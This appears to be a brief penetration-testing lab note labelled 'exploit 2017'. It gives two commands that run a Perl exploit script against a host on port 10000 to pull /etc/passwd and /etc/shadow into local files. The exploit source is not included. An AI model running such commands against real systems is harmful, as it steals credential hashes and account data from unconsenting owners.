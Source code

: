 #### exploit 2017
```
./2017.pl 10.11.1.141 10000 /etc/passwd 0 > passwd
```
```
./2017.pl 10.11.1.141 10000 /etc/shadow 0 > shadow
```